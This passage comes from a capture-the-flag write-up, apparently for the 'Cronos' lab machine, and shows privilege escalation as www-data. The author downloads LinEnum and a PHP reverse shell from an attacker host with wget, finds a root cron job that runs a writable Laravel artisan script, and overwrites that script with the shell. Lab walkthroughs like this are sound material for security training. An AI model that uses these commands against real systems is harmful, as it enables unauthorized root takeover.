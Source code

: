 # Privilege Escalation

To check for any vulnerabilities, we can use the [LinEnum](https://github.com/rebootuser/LinEnum) script. 

```bash
www-data@cronos:/var/www/admin$ wget http://10.10.14.9/LinEnum.sh
www-data@cronos:/var/www/admin$ chmod +x LinEnum.sh
www-data@cronos:/var/www/admin$ ./LinEnum.sh
...
[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
...
```

There is an interesting `artisan` script that is running. Let’s check out who owns the script.

```bash
www-data@cronos:/var/www/admin$ ls -la /var/www/laravel/ 
...
drwxr-xr-x 13 www-data www-data    4096 Apr  9  2017 .
drwxr-xr-x  5 root     root        4096 Apr  9  2017 ..
-rw-r--r--  1 www-data www-data     572 Apr  9  2017 .env
drwxr-xr-x  8 www-data www-data    4096 Apr  9  2017 .git
-rw-r--r--  1 www-data www-data     111 Apr  9  2017 .gitattributes
-rw-r--r--  1 www-data www-data     117 Apr  9  2017 .gitignore
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 Apr  9  2017 app
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
...
```

The script is owned by `www-data` which means we can abuse this. We can change the `artisan` script to a malicious reverse shell script.

```bash
www-data@cronos:/var/www/laravel$ wget http://10.10.14.9/revshell.php
www-data@cronos:/var/www/laravel$ cp revshell.php artisan
```
